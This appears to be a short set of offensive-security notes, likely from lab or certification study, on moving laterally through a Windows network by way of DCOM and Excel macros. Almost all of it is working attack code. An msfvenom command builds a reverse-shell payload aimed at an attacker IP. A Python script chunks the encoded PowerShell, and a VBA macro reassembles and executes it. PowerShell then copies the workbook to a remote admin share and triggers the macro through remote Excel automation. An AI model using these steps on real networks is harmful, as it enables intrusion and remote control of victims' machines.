 # Build Payload
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.111 LPORT=443 -f hta-psh -o evil.hta

#Copy out "powershell.exe -nop -w hidden -e blah blah put into payload_MacroSplit.py script"
########################################################################
#!/usr/bin/env python3

#msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.222 LPORT=443 EXITFUNC=thread -f hta-psh

str = "powershell.exe -nop -w hidden -e aQBmAC...."

n = 50

for x in range(0, len(str), n):
    split = str[x:x+n]
    print(f'Str = Str + "{split}"')
##########################################################################


# Insert Macro w/ split payload
Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
    Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
    ...
    Str = Str + "EQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHM"
    Str = Str + "AXQA6ADoAUwB0AGEAcgB0ACgAJABzACkAOwA="
    Shell (Str)
End Sub


# Move the file to where it is needed
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "192.168.1.110"))

$LocalPath = "C:\Users\jeff_admin.corp\myexcel.xls"

$RemotePath = "\\192.168.1.110\c$\myexcel.xls"

[System.IO.File]::Copy($LocalPath, $RemotePath, $True)

$Path = "\\192.168.1.110\c$\Windows\sysWOW64\config\systemprofile\Desktop"

$temp = [system.io.directory]::createDirectory($Path)

$Workbook = $com.Workbooks.Open("C:\myexcel.xls")

$com.Run("mymacro")